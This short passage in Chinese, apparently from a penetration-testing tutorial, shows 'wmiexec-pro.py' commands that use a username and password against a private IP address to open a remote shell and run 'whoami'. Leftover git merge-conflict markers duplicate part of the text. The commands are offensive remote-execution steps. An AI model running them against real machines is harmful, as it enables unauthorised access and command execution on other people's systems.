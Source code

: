 ### 功能测试

建立 shell 连接

<<<<<<< HEAD
```plain
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -shell
```

[![](assets/1710899837-c53a311e95e675cff07f8385cba023ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135023-c19f858c-dd0f-1.png)

执行系统命令

```plain
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -command "whoami"
```

[![](assets/1710899837-e6456516a49ddb6817ec5b0fa4e1210b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135028-c49f3e8a-dd0f-1.png)
=======
```bash
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -shell
```
